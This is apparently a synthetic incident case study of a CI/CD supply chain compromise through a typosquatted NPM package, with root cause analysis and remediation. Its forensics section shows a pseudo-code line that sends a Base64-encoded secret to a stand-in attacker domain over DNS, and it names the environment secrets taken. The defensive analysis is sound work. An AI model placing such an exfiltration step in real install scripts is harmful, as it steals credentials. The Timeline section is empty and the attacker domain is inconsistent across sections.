

# Case Study: Software Supply Chain Compromise & CI/CD Credential Poisoning

> **Metadata**: ID: `CS-SEC-03` | Domain: Security / DevSecOps | Type: Synthetic Forensic Case Study | Complexity: Advanced

---

## 01. Executive Summary
A Fortune 500 financial analytics software vendor experienced a severe software supply chain attack. A software developer accidentally introduced a typosquatted NPM package (`event-stream-extended` instead of legitimate `event-stream`) into an internal frontend microservice repository. The malicious package contained a heavily obfuscated post-install script that executed during the Jenkins CI/CD production build pipeline. The script harvested GitHub personal access tokens, AWS production deployment keys, and NPM publishing credentials stored as environment variables in the build runner, exfiltrating them via DNS tunneling. Attackers utilized the credentials to deploy a backdoor into customer software updates, resulting in an emergency product recall and a **$1.8M incident remediation effort**.

---

## 02. Business & System Context
- **Organization**: Financial Risk Modeling & Wealth Analytics Software Vendor ($450M Revenue).
- **Product**: Web Analytics Dashboard and On-Premises Enterprise Risk Scoring Appliance.
- **Build Infrastructure**: 120 Jenkins CI/CD runners building 400 production releases weekly.

---

## 03. Scope & Stakeholders
- **Incident Commander**: Head of DevSecOps Architecture.
- **Key Teams**: Product Security Engineering, CI/CD Platform Team, Corporate Legal Counsel.
- **Impacted Stakeholders**: 1,200 Commercial Banks utilizing the on-premises risk software.

---

## 04. Requirements & NFRs
- **Supply Chain Integrity**: Zero unvetted third-party open-source packages in production builds.
- **Secret Isolation**: CI build runners must never expose persistent cloud deployment credentials to untrusted build scripts.
- **Reproducible Builds**: Complete cryptographic bill of materials (SBOM) generated for all releases.

---

## 05. Constraints & Assumptions
- **The "NPM Public Registry is Safe" Fallacy**: The engineering organization permitted build runners to download packages directly from the public `registry.npmjs.org` without a private caching proxy, dependency vulnerability lock, or package namespace verification.

---

## 06. Architecture Before: The Open Supply Chain Trap
```mermaid
graph TD
    Dev[Developer Commit: typosquat package in package.json] --> Git[GitHub Enterprise]
    Git --> Jenkins[Jenkins CI Build Runner]
    
    subgraph Unrestricted Build Environment (Vulnerable)
        Jenkins -->|npm install: Downloads directly from public registry| PublicNPM[Public npmjs.org]
        PublicNPM --> MaliciousPkg[Malicious Package: event-stream-extended]
        
        MaliciousPkg -->|postinstall: Reads process.env| Steal[Extracts AWS_SECRET_KEY, GITHUB_TOKEN]
        Steal -->|DNS Tunneling: Base64 subdomains to attacker DNS| Exfil[Attacker DNS Server]
    end
    
    Jenkins --> Release[Corrupted Production Software Artifact]
```

---

## 07. Architecture Decisions
| Decision | Rationale | Downstream Failure |
| :--- | :--- | :--- |
| **Direct Internet Access on CI Build Runners** | Allowed fast builds without managing an enterprise Artifactory caching proxy. | Permitted malicious packages to exfiltrate stolen environment secrets directly over the internet. |
| **Plaintext Environment Variables in Build Runner** | Simple integration: stored AWS production master keys directly in Jenkins global credentials. | Any build script executing `npm install` could inspect `process.env` and steal all corporate secrets. |

---

## 08. Timeline


---

## 09. Incident Event
A frontend developer working under tight sprint deadlines copy-pasted a code snippet from an online forum containing the package dependency `"event-stream-extended": "^1.0.4"`. When the Jenkins CI runner executed `npm install`, the package's `postinstall` hook executed a minified JavaScript payload. The payload iterated through `process.env`, gathered `AWS_SECRET_ACCESS_KEY`, `DOCKER_AUTH_CONFIG`, and `GITHUB_API_TOKEN`, encoded the secrets into Base64 hex strings, and transmitted them out of the datacenter using **DNS Tunneling** (initiating DNS queries for subdomains of an attacker-controlled nameserver, bypassing egress HTTP firewalls). Seven days later, the attacker used the stolen GitHub token to push a malicious DLL into the enterprise release branch.

---

## 10. Symptoms & Evidence
- **Fact**: Corporate DNS server logs showed an anomalous burst of 450 high-entropy DNS queries to `*.ns1.telemetry-collector-net.org`.
- **Fact**: The package `event-stream-extended` was published only 4 days prior to the incident by an unverified account and had zero downloads.
- **Inference**: Perimeter HTTP egress proxies are useless if DNS egress traffic is unmonitored and unfiltered.

---

## 11. Failure Forensics
```
[Developer pushes package.json containing "event-stream-extended"]
                             │
                             ▼
[Jenkins Runner executes: npm install]
                             │
                             ▼
[package.json executes: "postinstall": "node ./setup.js"]
                             │
                             ▼
[setup.js scans environment: extracts AWS_SECRET_ACCESS_KEY]
                             │
                             ▼
[Executes: dns.resolve(base64(secret) + ".malicious-c2.com")]
                             │
                             ▼
[Corporate DNS forwarder passes query -> Attacker Logs Secret]
                             │
                             ▼
[Attacker uses Stolen GitHub Token to Commit Backdoor to Release]
```

---

## 12. Root Cause Analysis (5-Whys)
1. **Why was a backdoored binary published to customers?** -> An attacker used a stolen GitHub API token to commit code to the release branch.
2. **Why did the attacker have the GitHub token?** -> The token was exfiltrated from a Jenkins CI/CD build runner.
3. **How was it exfiltrated from Jenkins?** -> A malicious typosquatted NPM package executed arbitrary code during `npm install`.
4. **Why was a malicious package installed?** -> Developers had direct access to public NPM registries without dependency review.
5. **Why could an install script read corporate secrets?** -> CI runners passed long-lived production secrets as un-isolated environment variables to untrusted code builds.

---

## 13. Contributing Factors
- **Ignored `npm audit` Warnings**: Jenkins pipeline did not enforce `npm audit --audit-level=high`, ignoring security warnings.
- **Permissive Build Runner Egress**: CI/CD nodes had unrestricted outbound UDP port 53 access to public DNS forwarders.

---

## 14. Architecture After: Air-Gapped Private Artifactory & Ephemeral OIDC Tokens
```mermaid
graph TD
    Dev[Developer Commit] --> Git[GitHub Enterprise with Branch Protection]
    Git --> Runner[Ephemeral GitHub Actions Runner (Zero Static Secrets)]
    
    subgraph Air-Gapped Supply Chain Security
        Runner -->|1. Request Package| Artifactory[Private JFrog Artifactory Proxy]
        Artifactory -->|2. Quarantine & Scan: Snyk / Xray| PublicNPM[Public npmjs.org]
        Artifactory -->|3. Approve ONLY Verified Packages| Runner
    end
    
    subgraph Zero Static Secrets (OIDC Identity Federation)
        Runner -->|Short-Lived OIDC Token (15-Min Life)| AWS_STS[AWS STS AssumeRoleWithWebIdentity]
        AWS_STS -->|Scoped S3 Upload Only| ProdDeploy[Production Deploy]
    end
```

---

## 15. Recovery & Remediation
- **Immediate Mitigation**: Revoked all corporate AWS credentials and GitHub tokens; purged the malicious release artifact; executed emergency customer security advisories.
- **Permanent Architectural Fix**:
  - **Private Package Registry with Quarantine**: Prohibited direct connections to public package registries. All dependencies must be pulled through **JFrog Artifactory with JFrog Xray / Snyk scanning**, enforcing a **7-day quarantine rule** on newly published open-source packages.
  - **Eliminated Static CI Secrets (OIDC)**: Replaced static AWS keys and GitHub tokens with **OpenID Connect (OIDC) Federated Identity**. Build runners receive ephemeral, single-use STS tokens valid for only 15 minutes.
  - **Isolated Build Sandboxing**: Configured build runners with `npm install --ignore-scripts`, completely disabling the execution of arbitrary lifecycle scripts (`preinstall`, `postinstall`).

---

## 16. Business & Technical Impact
- **Financial**: $1.8M in forensic investigation, legal notification, and emergency patch verification costs.
- **Customer Trust**: Avoided remote code execution on client networks due to rapid detection of the backdoored release.
- **Software Bill of Materials (SBOM)**: Implemented automated **CycloneDX SBOM generation** and Sigstore cryptographic signing on 100% of production releases.

---

## 17. What Went Well
- The external security researcher followed responsible disclosure guidelines, allowing the vendor to recall the software before customer exploitation occurred.
- Git commit signing (GPG) was instituted immediately to prevent unauthorized commits.

---

## 18. Lessons Learned
- **Architecture**: Your software supply chain is part of your codebase. If an attacker can execute code inside your CI/CD runner, they own your production environment.
- **Zero Static Secrets**: Never store permanent cloud credentials as environment variables in build systems. Use ephemeral OIDC workload federation.

---

## 19. Architectural Recommendations
| Horizon | Action Item | Owner | Target |
| :--- | :--- | :--- | :--- |
| **Immediate** | Enforce `npm install --ignore-scripts` across all enterprise build pipelines | DevSecOps | Zero unvetted script exec |
| **30 Days** | Migrate CI/CD cloud authentication from static keys to OIDC tokens | Cloud Lead | 100% ephemeral creds |
| **90 Days** | Implement automated CycloneDX SBOM generation and cryptographic signing | AppSec Arch | 100% signed artifacts |
